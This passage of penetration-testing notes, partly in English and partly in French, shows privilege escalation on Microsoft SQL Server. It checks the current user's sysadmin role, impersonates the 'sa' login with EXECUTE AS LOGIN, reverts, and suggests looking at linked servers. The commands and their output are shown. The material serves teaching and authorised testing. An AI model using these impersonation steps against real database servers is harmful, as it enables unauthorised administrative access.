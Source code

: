#### <mark style="color:green;">**Verifying our Current User and Role**</mark>

```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0

(1 rows affected)
```

As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user. Let us impersonate the user and execute the same commands. To impersonate a user, we can use the Transact-SQL statement `EXECUTE AS LOGIN` and set it to the user we want to impersonate.

#### <mark style="color:green;">**Impersonating the SA User**</mark>

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

note il est recommandé d’exécuter EXECUTE AS LOGIN dans la base de données master car tous les utilisateurs y ont accès par défaut si l’utilisateur que vous essayez d’usurper n’a pas accès à la base de données à laquelle vous vous connectez cela entraînera une erreur essayez de passer à la base master avec USE master\
nous pouvons maintenant exécuter n’importe quelle commande en tant que sysadmin comme l’indique la valeur retournée 1 pour annuler l’opération et revenir à l’utilisateur précédent nous pouvons utiliser l’instruction transact-sql REVERT\
note si nous trouvons un utilisateur qui n’est pas sysadmin nous pouvons quand même vérifier s’il a accès à d’autres bases de données ou serveurs liés
